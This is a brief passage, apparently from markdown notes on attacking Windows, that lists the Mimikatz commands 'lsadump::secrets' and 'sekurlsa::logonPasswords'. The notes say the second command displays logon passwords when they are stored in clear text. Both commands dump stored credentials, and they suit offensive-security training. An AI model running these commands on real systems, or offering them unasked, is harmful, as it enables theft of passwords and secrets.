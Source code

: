 ```bash
lsadump::secrets
```

![lsadump::secrets](windows-attacksassets/image-20230318104555711.png)

- Display logon passwords, when stored in clear-text
  - in this case clear-text password are disabled - `(null)`

```
sekurlsa::logonPasswords
```
